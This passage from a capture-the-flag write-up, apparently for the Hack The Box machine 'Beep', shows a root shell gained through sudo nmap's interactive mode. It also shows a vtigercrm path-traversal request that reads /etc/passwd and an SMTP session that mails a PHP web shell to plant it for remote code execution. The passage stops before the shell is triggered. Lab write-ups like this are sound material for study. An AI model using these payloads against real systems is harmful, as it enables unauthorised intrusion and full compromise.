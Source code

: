 ```
sh-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

### Local File Inclusion to Remote Code Execution
When I read some other writeups, I was fascinated by the fact that there exist several ways to pwn the machine. Another way I stumbled upon exploited LFI. As I am a big fan of LFIs I also had to try this one.


So again we go back to our LFI vulnerability:
```
GET /vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

From the ennumeration part, we know that Port 25 (SMTP) is open. Let's it to send a mail to the user `asterisk`, which we leaked from the /etc/passwd file.

```
└──╼ $ telnet 10.129.1.226 25
Trying 10.129.1.226...
Connected to 10.129.1.226.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix
EHLO babbadeckl
250-beep.localdomain
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN
VRFY asterisk@localhost             <- verify if this user really exists
252 2.0.0 asterisk@localhost
mail from: babbadeckl@pwn.com
250 2.1.0 Ok
rcpt to: asterisk@localhost
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
Subject: RCE
<?php echo system($_REQUEST['babbadeckl']); ?>   <- RCE code

.
250 2.0.0 Ok: queued as 86A1ED92FF
quit
221 2.0.0 Bye
Connection closed by foreign host.
```
